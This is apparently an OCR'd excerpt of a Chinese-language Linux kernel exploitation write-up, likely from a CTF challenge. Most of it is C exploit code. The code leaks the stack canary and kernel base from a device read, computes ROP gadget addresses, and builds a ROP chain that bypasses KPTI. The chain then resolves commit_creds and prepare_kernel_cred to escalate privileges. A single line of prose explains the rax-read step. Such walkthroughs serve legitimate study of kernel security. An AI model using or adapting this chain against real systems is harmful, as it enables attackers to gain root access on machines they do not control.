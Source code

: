 ```c
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    canary = leak[16];
    kernel_base = leak[38] - 0xa157ULL;
    kpti_pass = kernel_base + 0x200f10ULL + 22ULL;
    pop_rax = kernel_base + 0x4d11ULL;
    pop_rdi = kernel_base + 0x6370ULL;
    pop_rdx = kernel_base + 0x7616ULL;
    pop_rbx = kernel_base + 0x6158ULL;
    ksymtab_prepare_kernel_cred = kernel_base + 0xf8d4fcULL;
    ksymtab_commit_creds = kernel_base + 0xf87d90ULL;
    read_mrax_pop = kernel_base + 0x15a7fULL;

    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", canary);
}
```

### Leak prepare_kernel_cred() & commit_creds()

通过`mov rax, qword ptr [rax]`可以将`value_offset`读出，放入到`rax`中，之后返回用户态，将`rax`的存入变量中。

```c
    payload[off++] = canary;
    payload[off++] = 0x0;                 // rbx
    payload[off++] = 0x0;                 // r12
    payload[off++] = 0x0;                 // rbp
    payload[off++] = pop_rax;             // return address
    payload[off++] = ksymtab_commit_creds;                 
    payload[off++] = read_mrax_pop;   		// rax <-- [rax]
    payload[off++] = 0x0;                 //dummy rbp
    payload[off++] = kpti_pass; 		// swapgs_restore_regs_and_return_to_usermode
    payload[off++] = 0;           	// dummy rax
    payload[off++] = 0;           	// dummy rdi
    payload[off++] = (unsigned long)get_commit_creds;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

void get_prepare_kernel_cred()
{
        __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("    --> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    call_prepare_kernel_cred();
}
```
